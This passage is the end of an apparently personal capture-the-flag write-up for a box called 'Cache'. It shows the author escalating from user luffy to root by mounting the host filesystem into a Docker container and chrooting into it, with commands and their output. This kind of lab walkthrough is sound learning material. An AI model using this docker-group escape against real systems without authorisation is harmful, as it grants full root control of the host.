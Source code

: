 {%highlight text%}
luffy@cache:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
docker: Error response from daemon: Get https://registry-1.docker.io/v2/: dial tcp: lookup registry-1.docker.io: Temporary failure in name resolution.
See 'docker run --help'.
{%endhighlight%}

That... didn't really work. Whats wrong? It says that docker didn't find the image alpine. So is it not there? After some searching I find a command to list out all the docker images.

{%highlight text%}
luffy@cache:/tmp$ docker image ls
docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        11 months ago       64.2MB
{%endhighlight%}

Alright lets try replacing "alpine" with "ubuntu". And it worked!

{%highlight text%}
luffy@cache:/tmp$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
# whoami
whoami
root
{%endhighlight%}

Learned a lot from yet another box. Docker, virtual hosts, memcached... much stuff that I didn't know about. After so much brainstorming I don't have enough brain cells left to write a proper ending so... See ya!
